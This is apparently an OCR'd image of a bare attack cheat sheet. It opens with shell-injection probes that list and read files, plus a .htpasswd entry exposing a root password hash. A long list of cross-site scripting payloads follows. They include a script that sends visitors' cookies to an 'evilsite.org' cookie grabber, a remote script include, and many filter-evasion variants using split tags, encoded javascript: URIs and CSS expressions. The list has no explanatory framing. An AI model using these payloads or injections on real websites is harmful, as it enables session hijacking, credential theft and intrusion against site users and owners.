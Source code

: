 a| ls  -> 5h6Xsxab.txt
a|cat 5h6Xsxab.txt
3dVgsa3v4

.htpasswd
root:RW3Q1nyZEe0jw

"><script>alert('prova xss')</script>


"><script>alert(document.cookie)</script>


<script>location.href="http://www.evilsite.org/cookiegrabber.php?cookie="+escape(document.co

okie)</script>

<scr<script>ipt>alert('XSS');</scr</script>ipt>

<script>alert(String.fromCharCode(88,83,83))</script>

<img src=foo.png onerror=alert(/xssed/) />

<style>@im\port'\ja\vasc\ript:alert(\"XSS\")';</style>

<? echo('<scr)'; echo('ipt>alert(\"XSS\")</script>'); ?>

<marquee><script>alert('XSS')</script></marquee>

<IMG SRC=\"jav&#x09;ascript:alert('XSS');\">

<IMG SRC=\"jav&#x0A;ascript:alert('XSS');\">

<IMG SRC=\"jav&#x0D;ascript:alert('XSS');\">

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

"><script>alert(0)</script>

"><script src=http://yoursite.com/your_files.js></script>

</title><script>alert(/xss/)</script>

</textarea><script>alert(/xss/)</script>

<IMG LOWSRC=\"javascript:alert('XSS')\">

<IMG DYNSRC=\"javascript:alert('XSS')\">

<font style='color:expression(alert(document.cookie))'>

'); alert('XSS

<img src="javascript:alert('XSS')">

<script language="JavaScript">alert('XSS')</script>

[url=javascript:alert('XSS');]click me[/url]
